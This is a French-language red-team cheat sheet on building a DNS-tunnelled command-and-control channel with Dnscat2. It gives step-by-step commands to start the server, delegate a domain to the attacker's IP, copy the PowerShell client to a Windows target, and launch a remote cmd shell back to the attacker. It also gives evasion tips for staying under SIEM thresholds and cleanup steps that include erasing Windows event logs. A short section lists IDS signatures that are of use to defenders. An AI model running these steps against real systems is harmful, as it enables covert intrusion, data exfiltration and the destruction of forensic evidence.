

La mise en place d'un tunnel **DNS** via **Dnscat2** permet d'établir un canal de communication **C2** en encapsulant le trafic dans des requêtes **DNS**. Ce processus s'inscrit dans les techniques de **Network Pivoting** et d'**Evasion Techniques**.



> [!danger] Risque de détection
> Le trafic **DNS** est très lent et bruyant pour les outils de monitoring comme les **SIEM** ou les **IDS**.

> [!warning] Condition critique
> Le port 53 doit être libre sur la machine attaquante. Un conflit avec **systemd-resolved** est fréquent.

> [!tip] Optimisation
> Utiliser **--no-cache** pour éviter les problèmes de mise en cache **DNS** par les serveurs intermédiaires.

> [!note] Prérequis
> Nécessite un domaine public avec un enregistrement **NS** pointant vers l'IP de l'attaquant.

## 1. Install & Setup Dnscat2 on Attack Machine

### Clone Dnscat2 repository

```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
```

### Install dependencies

```bash
sudo gem install bundler
sudo bundle install
```

### Start Dnscat2 Server

```bash
sudo ruby dnscat2.rb --dns host=<ATTACK_IP>,port=53,domain=<DOMAIN> --no-cache
```

*   **ATTACK_IP**: IP de la machine attaquante
*   **DOMAIN**: Nom de domaine utilisé pour le tunnel

## 2. Configuration DNS (Authoritative NS record setup)

Pour que le trafic soit routé vers le serveur **Dnscat2**, le domaine doit déléguer les requêtes pour un sous-domaine spécifique vers l'IP publique de l'attaquant.

1.  Créer un enregistrement **A** pour le serveur (ex: `ns1.example.com` -> `<ATTACK_IP>`)
2.  Créer un enregistrement **NS** pour le sous-domaine cible (ex: `c2.example.com` -> `ns1.example.com`)

Vérification de la propagation avec `dig` :

```bash
dig ns c2.example.com @8.8.8.8
```

## 3. Install & Setup Dnscat2 Client on Windows Target

### Download Dnscat2 PowerShell Client

```powershell
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

### Transfer dnscat2.ps1 to Windows Host

```powershell
scp dnscat2.ps1 <TARGET_USER>@<TARGET_IP>:C:\Users\Public\dnscat2.ps1
```

### Run Dnscat2 Client on Windows Target

```powershell
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver <ATTACK_IP> -Domain <DOMAIN> -PreSharedSecret <SECRET> -Exec cmd
```

*   **ATTACK_IP**: IP de la machine attaquante exécutant le serveur **Dnscat2**
*   **DOMAIN**: Domaine utilisé pour le tunnel
*   **SECRET**: Clé partagée générée par le serveur **Dnscat2**

## 4. Interacting with Dnscat2 Sessions

| Type | Commande | Description |
| :--- | :--- | :--- |
| **Serveur** | **sessions** | Lister les sessions actives |
| **Serveur** | **window -i <ID>** | Interagir avec une session spécifique |
| **Client** | **exec cmd** | Lancer un nouveau shell |
| **Serveur** | **?** | Lister les commandes disponibles |
| **Serveur** | **kill <ID>** | Terminer une session |
| **Serveur** | **quit** | Quitter **Dnscat2** |

## 5. Performance tuning (Latency/Throughput)

Le tunnel **DNS** est intrinsèquement limité par la taille des paquets **DNS** (512 octets en UDP). Pour optimiser le débit :

*   **Max packet size** : Ajuster la taille des paquets pour éviter la fragmentation.
*   **Keepalive** : Réduire la fréquence des paquets de maintien de connexion si le tunnel est stable.

```bash
# Dans la console dnscat2 (session active)
set max_packet_size=512
```

## 6. Detection & Evasion (Signatures IDS/IPS)

Le trafic **Dnscat2** présente des signatures caractéristiques détectables par les **IDS/IPS** (ex: **Snort**, **Suricata**) :

*   **Entropie élevée** : Les requêtes contiennent des sous-domaines encodés en Base64/Hex.
*   **Volume anormal** : Fréquence élevée de requêtes vers un domaine spécifique.
*   **Types d'enregistrements** : Utilisation massive de types `TXT`, `CNAME` ou `NULL`.

> [!tip] Evasion
> Utiliser des domaines avec une bonne réputation (catégorisation) et limiter le débit pour rester sous les seuils de détection des **SIEM**.

## 7. Troubleshooting & Debugging

### Check if the DNS port (53) is already in use

```bash
sudo netstat -tulnp | grep :53
```

### If port 53 is in use, kill the process occupying it

```bash
sudo kill -9 <PID>
```

### Allow DNS traffic through firewall (Linux)

```bash
sudo iptables -A INPUT -p udp --dport 53 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 53 -j ACCEPT
```

### If the Windows client fails to connect

*   Vérifier la validité de **ATTACK_IP** et **DOMAIN**
*   Inspecter les règles de pare-feu sur les deux hôtes
*   Vérifier la correspondance du **PreSharedSecret**

## 8. Cleanup procedures

Une fois l'opération terminée, il est impératif de supprimer les traces sur la cible et de réinitialiser la configuration réseau.

1.  **Terminer les sessions** : Utiliser `kill <ID>` dans le serveur **Dnscat2**.
2.  **Suppression des fichiers** : Supprimer `dnscat2.ps1` sur la cible.
3.  **Nettoyage DNS** : Supprimer les enregistrements **NS** sur le gestionnaire de domaine pour éviter d'attirer l'attention des scanners de sécurité.
4.  **Logs** : Effacer les logs d'événements Windows si nécessaire.

## Use Cases

*   Bypass de pare-feu réseau
*   Exfiltration de données
*   Persistance sur machine compromise
*   Contournement de l'inspection profonde de paquets (**DPI**)

## Liens associés

*   **C2 Frameworks**
*   **Network Pivoting**
*   **Evasion Techniques**
*   **Firewall Bypass**